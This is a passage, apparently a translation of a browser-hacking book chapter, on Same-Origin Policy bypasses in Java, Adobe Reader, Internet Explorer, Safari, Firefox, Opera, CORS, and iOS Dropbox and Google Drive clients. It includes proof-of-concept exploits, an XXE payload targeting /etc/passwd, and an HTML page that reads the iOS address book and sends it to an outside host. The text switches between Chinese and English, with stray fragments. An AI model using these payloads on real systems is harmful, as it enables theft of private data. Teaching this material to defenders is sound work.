SOP 防止你读取 HTTP 响应头或体。放松 SOP 并允许 XHR 跨源通信的一种方法是使用 Cross-origin Resource Sharing (CORS)。如果浏览器 hacker.com 源返回以下响应头，则 browservictim.com 的所有子域都可以与 browserhacker.com 建立双向通信通道：

```
Access-Control-Allow-Origin: \*.browservictim.com
Access-Control-Allow-Methods: OPTIONS, GET, POST 
Access-Control-Allow-Headers: X-custom
Access-Control-Allow-Credentials: true
```

除了第一个自解释的 HTTP 响应头外，其他头指示请求可以使用 OPTIONS、GET 或 POST 等任何方法，并最终包括 X-custom 头。请注意 Access-Control-Allow-Credentials 头，它负责允许对资源进行经过身份验证的通信。下面的代码片段演示了这一点：

```
var url = 'http://browserhacker.com/authenticated/user';
var xhr = new XMLHttpRequest()
xhr.open('GET', url, true);
xhr.withCredentials = true;
xhr.onreadystatechange = do_something();
xhr.send();
```

前面的示例检索 /authenticated/user 资源。在此情况下，访问需要凭证。通过将 withCredentials 标志设置为 true，JavaScript 启用了身份验证支持。

## 理解 SOP 与插件

理论上，如果插件从 http://browserhacker.com:80/ 服务，它应该只能访问 http://browserhacker.com:80/。但实际上并非如此。正如本章后面所学到的，Java、Adobe Reader、Adobe Flash 和 Silverlight 等许多 SOP 实现都不一致，并且在过去曾遭受过各种绕过。

每个主流浏览器插件都按自己的方式实现 SOP。例如，某些 Java 版本认为两个不同域名在 IP 相同的情况下被视为同源。这在虚拟主机环境中可能产生毁灭性后果，因为这些环境通常会在同一 IP 地址上托管多个网站。

Adobe 拥有 PDF 阅读器和 Flash 插件中长期存在的关键安全漏洞。大多数这些漏洞允许执行任意代码，因此安全风险远高于 SOP 绕过。然而，SOP 绕过也影响了这些插件。

Adobe Flash 提供一种方法让你管理跨源通信。这是通过名为 crossdomain.xml 的文件实现的，该文件应位于网站根目录。文件内容类似于以下内容：

```
<?xml version="1.0"?>
  <cross-domain-policy>
       <site-control permitted-cross-domain-policies="by-content-type"/>
       <allow-access-from domain="*.browserhacker.com" />
  </cross-domain-policy>
```

通过这种策略，browserhacker.com 的每个子域都可以与应用实现双向通信。

Java 和 Silverlight 的 SOP 可以通过类似的方式放松，因为 crossdomain.xml 同时被这两个插件支持。Silverlight 还支持 clientaccess-policy.xml。当发出跨源请求时，Silverlight 首先检查该文件，如果找不到则回退到 crossdomain.xml。这两个插件都有其特殊之处，如下面的章节所示。

## 理解 SOP 与 UI Redressing

UI redressing 简单来说是一种攻击方法类别，它通过更改用户界面的视觉元素来隐藏恶意活动。例如，在可见按钮上叠加一个不可见的提交按钮，该按钮执行恶意操作；或将光标更改为独立移动或点击，与用户实际意图不同。这类 UI redressing 攻击已在野外成功利用，针对 Facebook 等流行网站，如本章后面将揭示。

UI redressing 攻击以不同方式绕过 SOP。一些已修复的攻击（现在已修补）利用了 SOP 在执行从主窗口到 IFrames、IFrames 之间或窗口之间的拖放操作时未强制执行 SOP 的事实。其他攻击则利用 SOP 在请求 view-source 内容时未强制执行的特定条件。

## 理解 SOP 与浏览器历史记录

检索浏览器历史记录可能对用户隐私造成严重破坏。虽然大多数针对用户隐私的攻击在第 5 章中已有所涉及，但本章也包含一些浏览器历史记录攻击的示例。

这些攻击中的一些依赖于经典的 SOP 实现缺陷，例如 http 方案能够访问其他方案（例如 browser、about 或 mx）。这些攻击在 Avant 和 Maxthon 这两个不太知名但在中国非常流行的浏览器上曾经有效。

更为高级的攻击手段涉及在加载跨源资源时捕获 SOP 违规错误。这些攻击有助于揭示浏览器之前访问过的站点。

## 探索 SOP 绕过

SOP 的解释因所有开发者而异。这种复杂性和各种解释将在攻击时为你提供优势。

扩大攻击机会的一种方法是找到绕过 SOP 的途径。这将使你能够将受害浏览器作为宽松的跳板，不仅用于 Internet，还能用于内部网络，甚至可能用于本地文件系统。

下面的章节将展示通过浏览器插件、浏览器奇特性或甚至第三方应用程序绕过 SOP 的方法。这并非对每种 SOP 绕过的完整列表，而是作为一些常见且成功的绕过方法的入门。掌握基础后，第 6、7 和 8 章将进一步介绍如何利用 SOP 绕过。

### 绕过 SOP 的 Java

Java 版本 1.7u17 和 1.6u45 在两个域名解析到相同 IP 时不强制执行 SOP。也就是说，如果 browserhacker.com 和 browservictim.com 解析到相同 IP，Java Applet 就可以发起跨源请求并读取响应。

根据 Java 6 和 7 文档，特别是 URL 类的 equals 方法，可知：“如果两个主机名称可以解析为相同的 IP 地址，则两个主机被视为相等[…]”。显然，这是 Java SOP 实现的漏洞（当时未修补）。该漏洞在虚拟主机环境中尤为严重，因为在该环境中，可能有数百个域名由同一服务器管理并解析到相同 IP。

考虑以下场景，其中 www.browservictim.com 和 www.browserhacker.com 都解析到 IP 地址 192.168.0.2：

```
$ cat /etc/hosts/
192.168.0.2     www.browservictim.com
192.168.0.2     www.browserhacker.com
```


在下面的 Java 小程序中，当调用 getInfo() 方法时，它会创建一个 `java.net.URL` 对象的新实例，用于从 `www.browserhacker.com` 上托管的特定 URL 获取内容：

```java
import java.applet.*;
import java.awt.*;
import java.net.*;
import java.util.*;
import java.io.*;

public class javaAppletSop extends Applet{
 public javaAppletSop() {
  super();
  return;
 }
 
 public static String getInfo(){
  String result = "";
  try {
    URL url = new URL("http://www.browserhacker.com" + 
    "/demos/secret_page.html");
    BufferedReader in = new BufferedReader(
        new InputStreamReader(url.openStream()));

    String inputLine;
    while ((inputLine = in.readLine()) != null)
     result += inputLine;
     in.close();
    }
    catch (Exception exception){
     result = "Exception: " + exception.toString();
    }
    return result;
 }
}
```

现在编译前面的小程序，并在 `www.browservictim.com` 上的 HTML 页面中嵌入它。随后，使用 Firefox 浏览器打开该页面，并使用 Java 插件版本 1.6u45 或 1.7u17。可以使用以下 HTML 来嵌入小程序：

```html
<html>
<!-- 
Tested on:
 - Java 1.7u17 and Firefox (CtP allowed)
 - Java 1.6u45 and IE 8
-->
<body>
<embed id='javaAppletSop' code='javaAppletSop' 
type='application/x-java-applet' 
codebase='http://browservictim.com/' height='0' 
width='0'name='javaAppletSop'></embed>
<!-- use the following one for IE -->
<!-- 
<applet id='javaAppletSop' code='javaAppletSop' 
codebase='http://browservictim.com/' height='0' 
width='0'name='javaAppletSop'></applet>
-->
<script>
// 5 secs timeout to wait for the user to allow CtP
function getInfo(){
 output = document.javaAppletSop.getInfo();
 if (output) alert(output);
}
setTimeout(function(){getInfo();},5000);
</script>
</body>
</html>
```

在图 4-1 中的弹出框里，你可以看到从 www.browservictim.com 正确获取 demos/secret_page.html 内容，而 Java 不认为这是不同的来源。

start figure 

**Figure 4-1:** Unsigned applet is able to retrieve content cross-origin.



end figure 

一个重要的考虑因素是小程序使用 URL、BufferedReader 和 InputStreamReader 对象所需的权限。在 Java 1.6 中，正常的未签名小程序即可，无需用户干预（除了最新的浏览器版本，其中所有未签名小程序都需要用户干预才能运行）。在 Java 1.7 中，小程序需要显式的用户权限才能运行，这导致必须点击“运行”按钮来接受其执行。

这归功于 Oracle 在 2013 年早期的 Java 1.7 更新 11 中实现的小程序递送机制的变更。现在，用户必须显式使用“Click to Play”功能来运行已签名和未签名的小程序。该功能的最初实现被 Immunity2 绕过，随后 Oracle 发布了补丁。此外，从 Java 7u21 开始，Oracle 更新了“Click to Play”安全对话框，根据小程序类型区分显示给用户的信息。

尽管如此，从最终用户的角度来看，两个在 Java 版本大于 7u21 的已签名小程序之间的区别在于一个词。如果已签名小程序请求运行在沙箱之外，显示给用户的信息将是“…will run with unrestricted access …”。如果已签名小程序是沙箱化的，显示的信息将是“…will run with restricted access …”。你可以清晰地看到这两条信息之间的细微差别。关键问题是有多少用户会注意到这种差别？不过，“Click to Play”实际上消除了 Java 作为悄悄绕过同源策略（SOP）的选项。

Mario Heiderich 发现，当 Firefox 中 LiveConnect5 API 和 Java 插件可用时，会出现一个 Java 奇特之处。LiveConnect 使得 Firefox 15 及更早版本的 Packages DOM 对象可用。该对象允许你直接在 DOM 中调用 Java 对象和方法。下面的示例展示了使用 Packages DOM 对象进行绕过的方法：

```javascript
<script>
var url = new Packages.java.net.URL("http://browservictim.com/cookie.php");
var is = new Packages.java.io.BufferedReader(
new Packages.java.io.InputStreamReader(url.openStream()));
var data = '';
while ((l = is.readLine()) != null) {
data+=l;
}
alert(data)
</script>
```

当使用 Packages 来调用这段 Java 代码时，会产生一个潜在危险的副作用。如果代码在 Java 1.7 与 Firefox 15 或更早版本中执行，则前面讨论的“Click to Play”功能完全被绕过。如果浏览器是 Firefox 并且启用了 LiveConnect API，这种静默行为极大地提高了 Java 小程序用于 SOP 绕过的实用性。

另一个有趣的 Java SOP 绕过漏洞是 CVE-2011-3546，它在 2011 年底经过十个月的修复。类似的 SOP 绕过也在 Adobe Reader 中被发现，将在下一节讨论。Neal Poole 发现，如果用于加载小程序的资源返回 301 或 302 重定向，小程序的来源被评估为重定向的来源，而不是目的地。考虑以下代码：

```html
<applet
code="malicious.class"
archive="http://browservictim.com?redirect_to=
http://browserhacker.com/malicious.jar"
width="100" height="100"></applet> 
```

你理所当然地期望如果小程序尝试访问 browservictim.com 时，同源策略会被强制执行。当然，在这种情况下应该抛出 SOP 违规错误。这正是一个非缺陷的 SOP 实现应该表现的方式，因为小程序的来源是 browserhacker.com。相反，Java 版本 1.7 和 1.6 update 27（以及更早版本）将重定向的来源视为有效的来源。实际上，这意味着你可以读取受开放重定向漏洞影响的所有来源的内容。小程序会从重定向目的地（受攻击方控制的网站）加载，而重定向来源是受害者的来源（易受开放重定向影响）。

Frederik Braun7 发现了另一个在 Java 版本 1.7 Update 5 及更早版本中的有趣的 SOP 绕过漏洞，Oracle 随后在 Java 1.7 Update 9 中修复了该漏洞。该绕过利用了 Java 的 URL 对象（前面示例中也使用了该对象），该对象黑名单了使用 ftp 和 file URI 方案进行跨来源请求。尽管 jar 方案被允许，这使得你可以创建一个完全有效的 URI，例如：

```
jar:http://browserhacker.com/secret.jar
```

这些 jar URI 可以在创建新的 URL 对象时使用。在这种情况下，同源策略没有得到强制执行，因此从 browserhacker.com 的未签名 Java 小程序可以请求不同来源的 JAR 文件，从而读取其内容。

这种 SOP 绕过的影响不仅仅局限于 JAR 文件。JAR 格式本质上是带有 Manifest 和 META-INF 目录的 ZIP 文件。Microsoft Office 和 Open Office 文档格式也是同样的结构，这意味着你可以使用这种 SOP 绕过来读取任何 docx、odt、jar 以及本质上基于 zip 格式的任何压缩文件。

下面的代码可以用于通过前面讨论的 SOP 绕过方法读取 Open Office 文档的内容：

``` 
```


import java.awt.*; import java.applet.Applet ; 
import java.io.* ; import java.net.*;

public class `zipSopBypass` extends `Applet` {
 private `TextArea` `ltArea` = new `TextArea`("", 100, 300); 
 public void `init` (){ 
   add(`ltArea`);
 }

 public void `paint` (`Graphics` g) {
  g.drawString("Reading file content in JAR...", 80, 80);
  // the applet is loaded from 
  //the http://browserhacker.com origin
  String url = "jar:https://browservictim.com/"+
   "stuff/confidential.odt!/content.xml"; 
  String content = ""; 
  try{
   `URL` u = new `URL`(url);
   `BufferedReader` ff = new `BufferedReader`(
     new `InputStreamReader`(u.openStream())
   );
   while (ff.ready()){ 
     content += ff.readLine(); 
   }
  }catch(Exception e){ 
    g.drawString( "Error",100,100); 
  }

  `ltArea`.setText(content); 
  g.drawString(content ,100,100); 
}
}

Note that the url variable from the previous code is pointing to the content.xml resource contained inside the odt file archive. In Open Office documents, every file contains a content.xml resource.

Almost all the Java SOP bypasses described in the previous pages have been patched by Oracle. However, according to security companies like WebSense8 and Bit9,9 the majority of enterprises still use old and vulnerable versions of Java. Around July 2013, Bit9 collected Java usage statistics from almost 400 organizations using Bit9’s software reputation service. In total, approximately 1 million enterprise endpoint systems were surveyed. About 80 percent of those systems used Java 6. In those environments, it was still possible to run unsigned applets without user intervention.

The Click to Play security control has been introduced in the latest browsers and in Java itself. You may expect this to stop your ability to employ Java applets in your browser hacking. In fact, although it will slow you down, it won’t necessarily stop you. Don’t forget Internet Explorer 9 and below does not implement Click to Play. Also, according to the Bit9 survey, 93 percent of organizations had multiple versions of Java installed on the same machine. This means there is still plenty of opportunity to use Java during your browser hacking. With systems having multiple versions of Java, you can target the older versions and target browsers that don’t employ the Click to Play control.

 start figure 

**Figure 4-2:** Java security bug time line from 2012 to mid-2013.



 end figure 

The widespread presence of the Java plugin makes it a perfect target for attackers. Eric Romang summarized a time line of Java zero days that led to arbitrary code execution, as displayed in Figure 4-2.10 Whilst these are not SOP bypasses, the time line is suggestive of what you can expect in the future.

## Bypassing SOP in Adobe Reader

Adobe Reader is infamous for the number of security bugs that have been found in its browser plugin. There is a seemingly countless number of arbitrary code execution bugs caused by such classical problems as overflows and Use After Free vulnerabilities.11 Attacking Adobe Reader more directly will be covered in the “Attacking PDF Readers” section of Chapter 8, but it’s important to understand how flaws within the plugin can help bypass the SOP.

As you may know, the Adobe Reader PDF parser understands JavaScript.12 This attribute is often used by malware to hide malicious code inside PDFs.

One of these flaws that allowed for the bypassing of the SOP is CVE-2013-0622, discovered by Billy Rios, Federico Lanusse, and Mauro Gentile. The attack (now patched in Adobe Reader versions greater than 11.0.0) was similar to the second SOP bypass discussed previously in the Java section, where exploiting an open redirect would allow a foreign origin to access the origin of the redirect. Similar to this attack, a request that returns a 302 redirect response code is used to exploit the vulnerability. Another interesting aspect of the bug is that the SOP was not enforced when specifying a resource using an XML External Entity (XXE).

Conventional XXE injection involves trying to inject malicious payloads into requests that accept XML input, such as the following:

```
<!DOCTYPE foo [  
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "/etc/passwd" >]><foo>&xxe;</foo>
```

If the XML parser allows external entities, the value of &xxe, is then replaced with the contents of /etc/passwd. The same technique can be used to bypass the SOP. It involves loading (as an external entity) the resource and the server replying with a 302 redirect. The real resource you want to retrieve is the target of the redirection. Consider the following JavaScript code snippet, which is contained in a PDF file:

```
var xml="<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY> <! ENTITY xxe 
SYSTEM \"http://browserhacker.com?redirect=
http%3A%2F%2Fbrowservictim.com%2Fdocument.txt\">]>
<foo>&xxe;</foo>";
var xdoc = XMLData.parse(xml,false);
app.alert(escape(xdoc.foo.value));
```

When the PDF is loaded, the preceding JavaScript code is executed. A GET request is sent to browserhacker.com, which replies with an HTTP 302 response, redirecting to the value of the redirect parameter. This results in document.txt (from browservictim.com) being retrieved and parsed.

The origin of http://browserhacker.com should not have access to content in the http://browservictim.com origin. This is clearly a security flaw of the Adobe Reader SOP implementation, because only resources from the same-origin where the PDF was loaded from should be read. In this case, you’re reading a resource from a different origin than the one where the PDF was loaded. Exploiting this bug has a limitation, though, which can be generally applied to XXE injection bugs. The resource to be retrieved needs to be either a plain or XML document type; otherwise, the XML parser will throw an error.


-   引入了一个重要问题，因为它创建了从 HTTP 到 HTTPS 的桥梁。如果你能通过 HTTP 传入恶意内容，它将能够访问（可能包含敏感信息的）通过 HTTPS 保护的内容。

## 绕过 Internet Explorer 的 SOP

Internet Explorer 也并未能幸免于 SOP 绕过的困扰。一个例子是 Internet Explorer 版本低于 8 Beta 2（包括 IE 6 和 7）的情况。这些浏览器版本在实现 `document.domain` 时存在一个 SOP 绕过漏洞 14，该漏洞的利用非常简单，正如 Gareth Heyes 所示 15。漏洞的核心在于覆盖 `document` 对象，然后覆盖其 `domain` 属性。

下面的代码片段演示了该漏洞：

``` 
var document; 
document = {}; 
document.domain = 'browserhacker.com'; 
alert(document.domain);
``` 

如果你在最新的浏览器中运行这段代码，你会在 JavaScript 控制台中看到 SOP 违规错误。但它在旧版本的 Internet Explorer 中会正常工作。通过利用这段代码作为 XSS 的一部分，你可以打开 SOP，从而与其他来源建立双向通信。

## 绕过 Safari 的 SOP

在 SOP 内部，不同的方案被视为不同的来源。因此 `http://localhost` 被视为与 `file://localhost` 为不同的来源。理所当然地，人们会认为 SOP 在所有方案中都得到同等执行。然而，如本节所示，文件方案（file scheme）存在几个值得注意的例外，它通常被认为是受信任的区域。

Safari 浏览器从 200716 到当前（截至本文撰写时）的 6.0.2 版本，在访问本地资源时不强制执行 SOP。如果你在 Safari 中获得了 JavaScript 执行权限，你可以诱骗用户下载并打开一个本地文件。结合这个漏洞与精心构造的社交工程邮件（附带恶意 HTML 文件），就足以利用这一情况。当附带的 HTML 文件使用 `file` 方案打开时，其中的 JavaScript 代码可以绕过 SOP，并与不同来源建立双向通信。请参考以下页面：

```
<html>
<body>
 <h1> I'm a local file loaded using the file:// scheme </h1>
<script>

xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (xhr.readyState == 4) {
    alert(xhr.responseText);
  }
};
xhr.open("GET",
"http://browserhacker.com/pocs/safari_sop_bypass/different_orig.html");
xhr.send();
</script>
</body>
</html>
```

当页面使用 `file` 方案加载时，`XMLHttpRequest` 对象能够读取 `different_orig.html` 从 `browserhacker.com` 的响应。在 Figure 4-3 中，你可以看到这种行为的结果，其中检索到的页面内容被添加到警告对话框中。

start figure 

**Figure 4-3:** 当 JavaScript 代码使用 `file:` 方案加载时，跨来源资源的内容会被正确检索。



end figure 

相反，如果你使用不同的方案加载同一页面，例如 `http`，你会发现警告对话框是空的。

## 绕过 Firefox 的 SOP

2012 年 10 月，Gareth Heyes 发现了 Firefox 中一个更有趣的 SOP 绕过漏洞 17。该漏洞非常严重，以至于 Mozilla 决定在修复之前暂停 Firefox 16 的下载，直到问题解决 18。如前所述，之前的版本未受影响，因此可以推测该漏洞是作为升级的一部分引入的，但在 Firefox 16 的回归测试中未被发现。该漏洞导致未经授权访问 `window.location` 对象，超出了 SOP 的限制。以下是 Heyes 提供的原始 Proof of Concept (PoC)：

``` 
<!doctype html>
<script>
function poc() {
  var win = window.open('https://twitter.com/lists/', 'newWin',
'width=200,height=200');
  setTimeout(function(){
    alert('Hello '+/^https:\/\/twitter.com\/([^/]+)/.exec(
            win.location)[1])
  }, 5000);
}
</script>
<input type=button value="Firefox knows" onclick="poc()">
```
如果你在受控的来源（例如 browserhacker.com）执行上述代码，同时在另一个标签中登录 Twitter，将触发该攻击。它会打开一个新窗口加载 https://twitter.com/lists，Twitter 会自动跳转到 https://twitter.com/<user_uid>/lists（其中 user_id 是你的 Twitter 处理名）。5 秒后，`exec` 函数会触发 `window.location` 对象的解析（这里是漏洞所在，因为它不应该跨来源访问），从而显示 Twitter 处理名在弹窗中。

start feature 

* * *

**Sandboxed IFrames** HTML5 引入了新的 IFrame 属性：`sandbox`。其目的是提供一种更细粒度和更安全的使用 IFrames 的方式，同时限制第三方内容从不同来源嵌入时的潜在危害。`sandbox` 属性的值可以是以下关键词的组合：`allow-forms`、`allow-popups`、`allow-same-origin`、`allow-scripts` 和 `allow-top-navigation`。

* * *

end feature 

2012 年 8 月，Firefox 开始支持 HTML5 sandboxed IFrames。Braun 发现，当使用 `allow-scripts` 作为 IFrame `sandbox` 属性的值时，IFrame 内容中的恶意 JavaScript 仍然可以访问 `window.top`。这使得修改外层窗口的位置成为可能：

```
<!-- Outer file, bearing the sandbox -->
<iframe src="inner.html" sandbox="allow-scripts"></iframe>
```

被嵌入的代码是：

```
<!-- Framed document , inner.html -->
<script >
// escape sandbox:
if(top != window) { top.location = window.location; }
 // all following JavaScript code and markup is unrestricted:
 plugins, popups and forms allowed.
</script>
```

这可以在不指定额外的 `allow-top-navigation` 关键词的情况下完成，使得加载在 IFrame 中的 JavaScript 代码能够修改外层窗口的位置。攻击者可以利用此技巧将用户重定向到恶意网站，从而钩住受害者浏览器。

## 绕过 Opera 的 SOP

如果你查看 Opera 稳定版 12.10 的变更日志 19，会发现多个安全漏洞修复。其中一个补丁 20 是 Heyes 发现的 SOP 绕过漏洞。该漏洞利用了 Opera 在重写 IFrame 位置对象构造函数原型时未能正确执行 SOP。请参考以下代码：

``` 
<html>
<body>
<iframe id="ifr" src="http://browservictim.com/xdomain.html"></iframe>
<script>
var iframe = document.getElementById('ifr');
function do_something(){
 var iframe = document.getElementById('ifr');
 iframe.contentWindow.location.constructor.
  prototype.__defineGetter__.constructor('[].constructor.
  prototype.join=function(){console.log("pwned")}')();
}
setTimeout("do_something()",3000);
</script>
</body>
</html>
```

下面是来自不同来源的框架内容：

``` 
<html>
<body>
<b>I will be framed from a different origin</b>
<script>
function do_join(){
 [1,2,3].join();
 console.log("join() after prototype override: "
 + [].constructor.prototype.join);
}
console.log("join() after prototype override: " 
 + [].constructor.prototype.join);
setTimeout("do_join();", 5000);
</script>
</body>
</html>
```


-   [框架代码](https://browserhacker.com)正在向控制台打印 `\[\].constructor.prototype.join` 的值，这是调用 `join()` 方法时数组使用的原生代码。5 秒后，`join()` 方法会在 `[1,2,3]` 数组上被调用，之前使用的打印函数会再次被调用。第二次输出显示了原型被覆盖后的差异。如果回顾第一个代码片段，可以看到 `join()` 原型在 `do_something()` 函数内部被覆盖。

``` 
iframe.contentWindow.location.constructor.
prototype.__defineGetter__.constructor('[].constructor.
prototype.join=function(){console.log("pwned")}')();
```

请注意，可以在不触发 SOP 违规错误的情况下调用 `iframe.contentWindow.location.constructor`。这是一种错误行为，因为 SOP 应该被强制执行。例如，Chrome 会抛出 SOP 违规错误，如 Figure 4-4 所示。

start figure 

**Figure 4-4:** Chrome SOP 违规错误，当尝试访问构造函数时



end figure 

进一步来说，你想验证在原型覆盖后是否可以执行代码。在 Figure 4-5 中，你可以看到可以执行代码，例如 `return 5+20`，但可用的操作受限。即使 `alert()` 函数也无法使用，会产生安全错误。

start figure 

**Figure 4-5:** 尝试执行受限操作时的安全错误



end figure 

Heyes 还发现了通过覆盖字面量来绕过 SOP 的方法，这些方法未被 Opera 过滤。使用 `[]` 的数组字面量，并对 `join()` 方法进行原型覆盖，即可在框架内容每次调用数组的 `join()` 方法时执行任意代码：

```
[].constructor.prototype.join=function(){your_code};
```

为了演示 SOP 绕过的效果，从 [`browserhacker.com`](https://browserhacker.com) 获取代码，然后在两个不同来源上托管这两个代码片段，并在 Opera 12.02 控制台中打开。控制台输出将与 Figure 4-6 相同。

start figure 

**Figure 4-6:** 在 Opera 中覆盖 `join()` 函数



end figure 

使用此绕过的前提是：只能针对可框架的网站。因此，使用 `X-Frame-Options` 或防止框架的源不在该 SOP 绕过的范围内。另一个需要提及的考虑因素是，你可以使用字面量覆盖任何原型，而不仅仅是 `Array.join()` 方法。例如，你可以覆盖 `toString()` 方法：

```
"".constructor.prototype.toString=function(){alert(1)}
```

在真实攻击中，你可能会框架一个资源，可能是已存储会话 cookie 的已认证资源，并使用此 SOP 绕过来读取框架资源的内容。框架资源通常包含用户的私有数据，因为有效的会话 cookie 在加载资源时已被使用。

考虑一种情况：目标浏览器在 Opera 中有两个打开的标签页：一个是你控制的钩选标签页，另一个是目标的已认证源。如果你在钩选标签页中创建一个以已认证源为 src 的 IFrame，你就可以读取 IFrame 的内容。这意味着你可以访问目标已认证源中的任何敏感信息。

这种攻击的结果是读取跨源资源的内容，从而有效绕过 SOP。

## 绕过 SOP 在云存储中的应用

SOP 强制执行的问题不仅仅局限于浏览器和插件。2012 年，多个云存储服务也被发现存在 SOP 绕过弱点，包括 iOS 上的 Dropbox 1.4.6 和 2.0.1，Android 上的 Dropbox 2.0.1，以及 iOS 上的 Google Drive 1.0.1。这些服务允许本地文件存储和同步到云端，以便在其他安装了 Dropbox 或 Google Drive 客户端的设备上随时访问。

Roi Saltzman 发现了一个类似于前文提到的 Safari SOP 绕过的漏洞，该漏洞影响了 Dropbox 和 Google Drive。该攻击依赖于加载在特权区域的文件，例如：

```
file:///var/mobile/Applications/APP_UUID
```

如果你能骗人通过客户端加载一个 HTML 文件，其中包含的 JavaScript 代码将被执行。由于文件加载在特权区域，JavaScript 可以访问移动设备的本地文件系统。需要注意的是，强制执行 SOP 的设计本身就有缺陷。因为恶意 HTML 文件是通过 file 方案加载的，JavaScript 可以访问其他文件，例如：

```
file:///var/mobile/Library/AddressBook/AddressBook.sqlitedb 
```

这份 SQLite 数据库包含 iOS 用户的通讯录。当然，该文件必须是应用程序可以访问的。如果目标应用程序拒绝在其范围之外访问文件，你仍然可以检索缓存文件等。这种漏洞导致的访问很大程度上取决于受影响的应用程序。

如果你骗人让目标使用受影响的 Dropbox 或 Google Drive 客户端打开以下恶意文件，用户的通讯录内容将被发送到 browserhacker.com：

```
<html>
<body>
<script>
 local_xhr = new XMLHttpRequest();
 local_xhr.open("GET", "file:///var/mobile/Library/AddressBook/
 AddressBook.sqlitedb");
 local_xhr.send();
 
 local_xhr.onreadystatechange = function () {
  if (local_xhr.readyState == 4) {
   remote_xhr = new XMLHttpRequest();
   remote_xhr.onreadystatechange = function () {};
   remote_xhr.open("GET", "http://browserhacker.com/?f=" +
   encodeURI(local_xhr.responseText));
   remote_xhr.send();
  }
 }
</script>
</body>
</html>
```

这段攻击演示了通过精心放置的 JavaScript 在不同环境和上下文中运行的多种利用方法。JavaScript 不仅在网页浏览器中运行，还可能在其他环境中运行。在 iOS 攻击的例子中，该 exploit 在 Dropbox 或 Google 应用中的 UIWebView 对象内运行。UIWebView 对象通常作为嵌入式浏览器窗口在原生 iOS 应用中使用。

另一个值得注意的点是，该攻击针对移动操作系统，而非传统桌面环境。由于可见 UI 的大小限制，这类任务往往在目标甚至没有意识到的情况下进行。

## 绕过 SOP 在 CORS 中

虽然跨来源资源共享（CORS）是放宽 SOP 的好方法，但如果不充分理解放宽策略的安全影响，很容易配置错误。以下是一个潜在的误配置示例：

```
Access-Control-Allow-Origin: *
```

2012 年 11 月，Veracode 进行研究，分析了 Alexa 前一百万个网站的 HTTP 头部。24 个唯一的来源返回了 `Access-Control-Allow-Origin` 头的通配符值。这实际上允许 Internet 上的任何其他网站向这些网站提交跨源请求并读取响应。实践中，这意味着攻击者拥有等同于 SOP 绕过的所有这些域的功能。根据 Web 应用功能的不同，这种配置的结果可能是灾难性的。从一个不同来源的钩选浏览器中，这些来源可以以比 SOP 强制的情况更可靠的方式被爬取和攻击。


显然，在 Access-Control-Allow-Origin 设置为通配符值时可能并不存在安全隐患。例如，如果仅使用宽松策略来提供不包含敏感信息的内容。

在分析设置 CORS 头部的应用程序时，始终要理解允许的源之间的关系。即使未使用通配符值，也可能会有多个源被允许连接到同一目标。因此，针对这些允许的源的标准 XSS 漏洞可能足以让你跨源利用目标功能。

